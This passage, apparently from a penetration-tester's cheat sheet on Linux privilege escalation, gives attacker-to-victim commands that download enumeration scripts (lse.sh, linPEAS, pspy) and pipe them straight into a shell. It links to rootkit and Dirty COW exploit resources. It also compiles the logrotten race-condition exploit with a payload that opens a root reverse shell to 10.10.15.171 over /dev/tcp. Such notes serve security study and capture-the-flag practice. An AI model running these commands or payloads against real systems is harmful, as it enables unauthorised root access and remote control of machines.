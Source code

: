 ```
root@kali:$ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/lse.sh -qO- |bash
```

`linPEAS.sh` (linPEAS):

```
root@kali:$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/linpeas.sh -qO- |sh
```

`pspy`:

```
root@kali:$ wget [1] && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/pspy -qO /dev/shm/pspy && cd /dev/shm && chmod +x pspy
user@vict:$ ./pspy
```

1. [github.com/DominicBreuker/pspy/releases](https://github.com/DominicBreuker/pspy/releases)



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)



### Dirty COW

* [dirtycow.ninja/](https://dirtycow.ninja/)
* [github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
* [github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)



### logrotate

whotwagner/logrotten:

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/j1v37u2k3y/backups/access.log -d
```

* [github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)

